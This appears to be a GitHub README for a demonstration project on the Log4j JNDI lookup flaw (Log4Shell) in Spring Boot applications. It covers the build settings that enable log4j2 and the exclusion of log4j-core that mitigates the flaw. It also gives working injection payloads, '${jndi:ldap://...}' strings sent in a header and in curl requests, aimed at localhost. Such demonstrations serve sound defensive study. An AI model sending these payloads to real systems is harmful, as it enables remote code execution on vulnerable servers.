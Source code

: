 ### log4j lookup problem demonstration for spring projects

#### This issue will not affect spring projects with default configurations. Spring uses a logback by default.

#### To use log4j you must exclude 'spring-boot-starter-logging' and include 'log4j'
    dependencies {
        implementation 'org.springframework.boot:spring-boot-starter-log4j2:2.5.1'
    }
    configurations {
        all*.exclude module: 'spring-boot-starter-logging'
    }

#### Don't forget only log4j-core impacted with this issue. You can stop this issue by excluding 'log4j-core'. 
    configurations {
        all*.exclude module: 'log4j-core'
    }

Use next method for investigations.

    GET http://localhost:8080/api/infected-method
    cardNumber: ${jndi:ldap://localhost:8082/api/long-wait}

####Curl request example
    
    curl --location --request GET 'localhost:8080/api/infected-method' --form 'cardNumber=${jndi:ldap://localhost:8082/api/long-wait}'
    
    curl --location --request GET 'localhost:8080/api/infected-method?cardNumber=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A8082%2Fapi%2Flong-wait%7D'
